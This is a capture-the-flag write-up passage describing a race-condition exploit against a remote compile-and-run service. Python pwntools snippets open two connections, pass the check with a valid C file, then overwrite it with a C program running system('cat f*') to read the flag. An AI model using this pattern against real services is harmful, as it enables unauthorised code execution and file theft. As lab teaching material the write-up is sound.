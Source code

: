 it will take its time printing the text bit by bit before actually compiling the and running the executable. within that timeframe we can make another connection rewriting the valid content with malicious one and eventually when that line of code is done, it will instead compile the malicious content and running it.

first we will have two connection to the server, giving the same filename.

```python
ioval = initialize()
ioval.sendlineafter(b': ', b'hygge.c')

iomal = initialize()
iomal.sendlineafter(b': ', b'hygge.c')
```

then we will give the valid content and wait for the compile message

```python
payloadval = b64encode(open('primes.c', 'rb').read())
ioval.sendlineafter(b': ', payloadval)
ioval.recvuntil(b'Compiling')
```

then when it reaches up to that point, it will already passes the check, which means our other connection can overwrite it and close it to avoid any further error&#x20;

```python
ioval.sendlineafter(b': ', payloadval)
iomal.sendlineafter(b': ', payloadmal)
iomal.recvuntil(b'safe')
```

as for the malicious content, it will be a simple cat to the flag

```c
#include<stdlib.h>
#include<stdio.h>

int main(){
    char a;
    a = system("cat f*");
    printf("%s",a);
}
```

run it againts the server

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

